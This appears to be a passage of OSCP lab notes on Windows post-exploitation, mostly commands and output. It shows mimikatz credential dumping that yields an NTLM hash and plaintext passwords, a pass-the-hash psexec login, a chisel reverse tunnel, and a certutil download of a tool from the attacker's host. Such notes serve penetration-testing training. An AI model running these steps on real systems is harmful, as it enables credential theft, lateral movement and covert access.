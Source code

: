 ```mimikatz
vault::cred
```
	No output

```mimikatz
sekurlsa::logonpasswords
```
		 * Username : celia.almeda
	 * Domain   : OSCP
	 * NTLM     : e728ecbadfb02f51ce8eed753f3ff3fd

We want plaintext passwords from this output if any
```mimikatz
lsadump::secrets
```
	cur/text: 7k8XHk3dMtmpnC7
	cur/text: 69jHwjGN2bPQFvJ

Checking for hashes of current users (Takes some time)
```mimikatz
lsadump::lsa /patch
```
	Nothing new

Now to exit mimikatz

Will now create text files for users, passwords, and hashes to prepare for password spraying

Users:
	celia.almeda
	Administrator
	mary.williams

Hashes:
	3c4495bbd678fac8c9d218be4f2bbc7b
	e728ecbadfb02f51ce8eed753f3ff3fd

Passwords:
	7k8XHk3dMtmpnC7
	69jHwjGN2bPQFvJ

In case of disconnect use impacket-psexec to reconnect
```sh
impacket-psexec Administrator@192.168.238.141 -hashes :3c4495bbd678fac8c9d218be4f2bbc7b
```

Now to tunnel from the Windows to the attack box via chisel since the other two IP addresses are internal
https://github.com/jpillora/chisel/releases/tag/v1.9.1

Run the server on the attack box
```
./chiselLin.sh server --port 4445 --reverse
```

Download Chisel for windows
```
certutil -urlcache -f http://192.168.45.174/chiselWin.exe chisel.exe
```
